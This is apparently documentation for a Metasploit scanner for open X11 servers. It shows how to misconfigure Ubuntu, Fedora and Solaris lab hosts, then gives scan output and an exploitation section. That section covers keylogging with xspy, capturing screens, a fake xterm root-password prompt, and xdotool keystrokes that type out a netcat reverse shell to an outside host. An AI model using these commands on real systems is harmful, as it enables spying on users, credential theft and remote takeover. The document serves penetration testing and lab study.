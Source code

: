 ## Vulnerable Application

X11 (X Window System) is a graphical windowing system most common on unix/linux, although implementations may be found in windows
with software such as Hummingbird Exceed X Server.  The service can accept connections from any users when misconfigured
which is done with the command `xhost +`.

### Ubuntu 10.04

1. `sudo nano /etc/gdm/gdm.schemas`
2. Find:

    ```
    <schema>
     <key>security/DisallowTCP</key>
     <signature>b</signature>
     <default>true</default>
    </schema>
    ```
  - Change `true` to `false`

3. logout or reboot
4. Verification: ```sudo netstat -antp | grep 6000```

    ```
    tcp        0      0 0.0.0.0:6000            0.0.0.0:*               LISTEN      1806/X
    ```

5. Now, to verify you allow ANYONE to get on X11, type: `xhost +`

### Ubuntu 12.04, 14.04

1. `sudo nano /etc/lightdm/lightdm.conf`
2. Under the `[SeatDefaults]` area, add:

    ```
    xserver-allow-tcp=true
    allow-guest=true
    ```

3. logout or reboot
4. Verification: ```sudo netstat -antp | grep 6000```

    ```        	
    tcp        0      0 0.0.0.0:6000            0.0.0.0:*               LISTEN      1806/X
    ```

5. Now, to verify you allow ANYONE to get on X11, type: `xhost +`

### Ubuntu 16.04

  Use the Ubuntu 12.04 instructions, however change `SeatDefaults` to `Seat:*`

### Fedora 15

1. `vi /etc/gdm/custom.conf`
2. Under the `[security]` area, add:

    ```
    DisallowTCP=false
    ```

3. logout/reboot
4. Now, to verify you allow ANYONE to get on X11, type: `xhost +`

### Solaris 10

1. `svccfg -s svc:/application/x11/x11-server setprop options/tcp_listen = true`
2. `svc disable cde-login`
3. `svc enable cde-login`
4. `xhost +`

## Verification Steps

  1. Install and configure X11
  2. Start msfconsole
  3. Do: `use auxiliary/scanner/x11/open_x11`
  4. Do: `set rhosts [IPs]`
  5. Do: `run`

## Scenarios

  A run against Ubuntu 14.04 (192.168.2.75), Ubuntu 16.04 (192.168.2.26), and Solaris 10 (192.168.2.32)

  ```
    msf > use auxiliary/scanner/x11/open_x11 
    msf auxiliary(open_x11) > set rhosts 192.168.2.75 192.168.2.26
    rhosts => 192.168.2.75 192.168.2.26
    msf auxiliary(open_x11) > run
    
    [+] 192.168.2.75:6000     - 192.168.2.75 Open X Server (The X.Org Foundation)
    [*] Scanned 1 of 3 hosts (33% complete)
    [+] 192.168.2.26:6000     - 192.168.2.26 Open X Server (The X.Org Foundation)
    [*] Scanned 2 of 3 hosts (66% complete)
    [+] 192.168.2.32:6000     - 192.168.2.32 Open X Server (Sun Microsystems, Inc.)
    [*] Auxiliary module execution completed
  ```

## Confirming

The following are other industry tools which can also be used.

### [nmap](https://nmap.org/nsedoc/scripts/x11-access.html)

```
# nmap -p 6000 --script=x11-access 192.168.2.26,75

Starting Nmap 7.40 ( https://nmap.org ) at 2017-04-23 13:15 EDT
Nmap scan report for ubuntu-desktop-16 (192.168.2.26)
Host is up (0.0021s latency).
PORT     STATE SERVICE
6000/tcp open  X11
|_x11-access: X server access is granted
MAC Address: 00:0C:29:60:27:F9 (VMware)

Nmap scan report for ubuntu-desktop-14 (192.168.2.75)
Host is up (0.0021s latency).
PORT     STATE SERVICE
6000/tcp open  X11
|_x11-access: X server access is granted
MAC Address: 00:0C:29:0E:C4:6E (VMware)
```

### xdpyinfo

This is one of the standard linux tools to get info on an X display.

```
# xdpyinfo -display 192.168.2.75:0 | head -n 5

name of display:    192.168.2.75:0
version number:    11.0
vendor string:    The X.Org Foundation
vendor release number:    11803000
X.Org version: 1.18.3
```

## Exploitation

Exploiting this mis-configuration has several methods.  The target can have their display viewed, keystrokes logged, and potential keyboard typed.

### Keylogging

To keylog the remote host, we use a tool called [xspy](http://tools.kali.org/sniffingspoofing/xspy)

`xspy -display [ip]:0`

### Screen Monitoring

#### Entire Display

It is possible to monitor the entire display (all windows) and view the content.

 - Take a screenshot: `xwd -root -display [ip]:[display] -out xdump.xdump`
 - View screenshot: `display xdump.xdump` or `xwud -in xdump.xdump`

#### Specific Window

To monitor only a single window (a terminal for instance)

First, we need to determine which windows are available and what their processes are:

 - `xwininfo -tree -root -display [ip]:0`
 
Once you determine which window you want to monitor, you'll want to use the `windowID`.  Now use the application `xwatchwin`

 - `xwatchwin [ip]:0 -w [windowID]`

### Social Engineering

Obviously watching keystrokes is good, but we want to coax the user into providing their password.  We can do this by using xterm to display a login box to the user.

This was tested against Ubuntu 12.04, 14.04, 16.04 and Solaris 10.

1. start `xspy`
2. `xterm -T "Root Permission Required" -display [ip]:0 -e "echo -e -n 'root password: '; read passwd; echo 'Authentication Failure'; echo -e -n 'root password: '; read passwd"`
  - Notice it asks twice for the password in case of a mistyped initial password.  This can also be adjusted to just say password or the real user's username
  - The victim's typed text by the user will not be masked (`*`)

### Direct Exploitation

Use `exploits/unix/x11/x11_keyboard_exec`

### Typing Commands

Similar to the method `exploits/unix/x11/x11_keyboard_exec` uses, its possible to use `xdotool` to run commands on the remote system.

To install `xdotool` on kali simply run `apt-get install xdotool`

Now, you can directly interact by typing commands (which appear on the users screen), an example would be running xterm and launching netcat.

For this scenario we run a simple reverse netcat to 192.168.2.9:80

```
xdotool key alt+F2
xdotool key x t e r m
xdotool key KP_Enter
xdotool key n c space 1 9 2 period 1 6 8 period 2 period 9 space 8 0 space minus e space slash b i n slash b a s h KP_Enter
```